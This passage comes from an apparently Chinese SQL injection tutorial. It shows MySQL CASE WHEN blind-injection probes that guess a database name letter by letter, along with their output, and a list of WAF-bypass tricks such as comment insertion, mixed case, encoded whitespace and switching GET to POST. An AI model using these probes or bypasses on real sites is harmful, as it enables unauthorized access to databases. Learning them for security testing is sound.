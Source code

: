 ```mysql
mysql> SELECT (CASE WHEN (substring(database(),1,1)="t") THEN 135 ELSE 0x29 END);
+--------------------------------------------------------------------+
| (CASE WHEN (substring(database(),1,1)="t") THEN 135 ELSE 0x29 END) |
+--------------------------------------------------------------------+
| 135                                                                |
+--------------------------------------------------------------------+
1 row in set (0.00 sec)

mysql> SELECT (CASE WHEN (substring(database(),1,1)="r") THEN 135 ELSE 0x29 END);
+--------------------------------------------------------------------+
| (CASE WHEN (substring(database(),1,1)="r") THEN 135 ELSE 0x29 END) |
+--------------------------------------------------------------------+
| )                                                                  |
+--------------------------------------------------------------------+
1 row in set (0.00 sec)
```

# 0x04 绕WAF一些思路

内联注释：/**/

大小写：UnIon

代替空格：%00，%0a，%0b，%0c，%0d，%a0，%1f

填充换行符：%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a%0a

HTTP数据包：将GET请求变成POST请求提交

# 0x05 结语

多花精力在SQL语句的理解，不要做只会复制粘贴payload的SCRIPTKID

多积累一些报错函数，在遇到waf或者盲注的时候能够快速想起使用